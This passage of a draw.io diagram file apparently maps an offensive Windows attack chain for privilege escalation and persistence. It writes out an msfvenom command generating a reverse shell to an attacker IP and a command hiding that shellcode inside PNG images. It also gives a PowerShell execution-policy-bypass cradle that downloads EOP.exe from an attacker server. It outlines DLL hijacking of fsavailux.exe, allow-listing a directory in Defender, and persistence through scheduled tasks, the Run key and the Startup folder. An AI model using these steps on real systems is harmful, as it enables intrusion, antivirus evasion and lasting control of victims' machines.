        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="60" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="162" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-0" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-30" target="P6aCfQ930mBBJoiv-hOj-47" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-33" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9101.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-41" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-47" target="P6aCfQ930mBBJoiv-hOj-54" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-47" value="Compile EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="250" width="880" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-52" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-53" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-22" value="Compile EXE / DLL" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-23" value="EOP.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-24" value="9001.cpp&lt;br&gt;" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-25" value="DEVOBJ.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-54" target="c0Sctn81WB5nrNk0CtNy-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-54" value="Stage EOP Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="460" width="580" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-55" value="EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-56" value="9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-58" value="9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="450" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-26" value="DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-2" value="Execute EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="620" width="990" height="330" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-3" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-4" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/EOP.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-5" value="Execute EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-3" target="c0Sctn81WB5nrNk0CtNy-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-28" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-9" target="c0Sctn81WB5nrNk0CtNy-27" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-9" value="Create &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-5" target="c0Sctn81WB5nrNk0CtNy-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-30" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-27" target="c0Sctn81WB5nrNk0CtNy-29" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-27" value="Copy legitimate fsavailux.exe to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-29" target="c0Sctn81WB5nrNk0CtNy-31" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-29" value="Copy malicious DEVOBJ.dll to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-31" target="c0Sctn81WB5nrNk0CtNy-33" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-31" value="Execute fsavailux.exe from &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-43" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-42" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-33" value="DLL Hijack through malicious DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-37" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-35" target="c0Sctn81WB5nrNk0CtNy-36" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-35" value="Execute 9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-36" value="Read Payload From 9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="85" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-39" value="Delete &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-42" value="Allow-list Medium IL Tools directory for Defender" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="262" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-44" value="Establish High IL&amp;nbsp;&lt;br&gt;/ SYSTEM Persistence" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="790" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-18" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-0" target="Op0RA1QyIyzGp62vVNNJ-14">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1230" y="1190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-0" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="940" width="1520" height="170" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-1" value="Pers_High.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="35" y="55" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-2" value="High IL Tools Directory&#xa;(9201.exe / 9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-1" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-5" value="9201.raw / 9202.raw / 9203.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="735" y="55" width="180" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-6" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="30" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-7" value="Port (9201 / 9202 / 9203)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="60" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-8" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="935" y="55" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-3" value="9201.cpp / 9202.cpp / 9203.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="505" y="55" width="190" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-4" value="High IL Tools Directory&#xa;(9201.png / 9202.png / 9203.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-3" vertex="1">
          <mxGeometry y="30" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-9" value="Scheduled_Task_Template.xml" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="265" y="55" width="193" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-10" value="High IL Tools Directory&#xa;(9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-9" vertex="1">
          <mxGeometry y="30" width="193" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-14" target="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-14" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1200" width="880" height="210" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-19" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-20" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
